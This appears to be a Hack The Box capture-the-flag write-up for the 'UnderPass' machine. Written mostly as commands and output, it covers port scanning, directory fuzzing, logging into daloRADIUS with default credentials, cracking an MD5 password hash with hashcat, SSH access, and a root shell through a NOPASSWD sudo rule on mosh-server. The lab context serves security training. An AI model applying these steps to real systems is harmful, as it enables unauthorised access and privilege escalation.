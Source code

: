 ```yaml
---
title: UnderPass - Linux Easy - HTB Writeup 
description:
slug: underpass-htb-writeup-linux-easy
date: 2025-05-10 00:00:00+0000
image: UnderPass.PNG
categories:
    - Hack
    - Linux
    - Easy
tags:
    - Sudo Privilege escalation
---
```

## Summary
User: Default credentials and weak password reuse\
Root: Sudo Privilege escalation

## Enumeration
Starting with a simple nmap scan, we can identify that ssh and a web service are exposed.
{{< highlight go "hl_lines=1 4 8" >}}
$ nmap -Pn -p- 10.10.11.48 -A -v

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp    open     http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
7294/tcp  filtered unknown
12945/tcp filtered unknown
37517/tcp filtered unknown
39220/tcp filtered unknown
44459/tcp filtered unknown
55246/tcp filtered unknown
55628/tcp filtered unknown
64827/tcp filtered unknown
{{< /highlight >}}

## User
### Fuzzing
While fuzzing on port 80 with ```ffuf```, we discover the path ```/daloradius/app/operators```.\
Navigating to this endpoint redirects us to a ```Daloradius``` login interface, an ["advanced RADIUS web platform aimed at managing hotspots and general-purpose SP deployments".](https://github.com/lirantal/daloradius)
{{< highlight go "hl_lines=1 5 9" >}}
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/FUZZ
daloradius              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.11.48/daloradius/FUZZ
app                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 15ms]
<...>

$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.11.48/daloradius/app/FUZZ
operators               [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 87ms]
<...>
{{< /highlight >}}
Path: http://10.10.11.48/daloradius/app/operators/login.php
![](Path.PNG)

### Default credentials
Using the default credentials ```administrator:radius```, which are easily found on the internet, we gain access to the home page.\
Then, we can navigate to the ```users``` and notice the password for ```svcMosh``` appears to be an MD5 hash. We can use hashcat to recover the password.
![](mng-list-all.PNG)
{{< highlight go "hl_lines=1" >}}
$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
<...>
412dd4759978acfcc81deab01b382403:underwaterfriends
<...>
{{< /highlight >}}
Using those credentials, we gain access to the server as svcMosh using SSH.
{{< highlight go "hl_lines=1 3 5" >}}
$ ssh svcMosh@10.10.11.48
<...>
svcMosh@underpass:~$ pwd
/home/svcMosh
svcMosh@underpass:~$ ls
user.txt
{{< /highlight >}}

## Root
### Sudo Privilege escalation

```svcMosh``` is allowed to execute mosh-server, [a component of the Mosh remote shell used for interactive SSH-like sessions.](https://mosh.org/)\
Since it can be run with sudo, we can leverage it to obtain a root shell.
{{< highlight go "hl_lines=1 7 9 13 15 17" >}}
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo /usr/bin/mosh-server
MOSH CONNECT 60002 zl0g6Tbx/KIgOR0jzdQ9wA
<...>

svcMosh@underpass:~$ MOSH_KEY=zl0g6Tbx/KIgOR0jzdQ9wA mosh-client 127.0.0.1 60002

root@underpass:~# pwd
/root
root@underpass:~# ls
root.txt
{{< /highlight >}}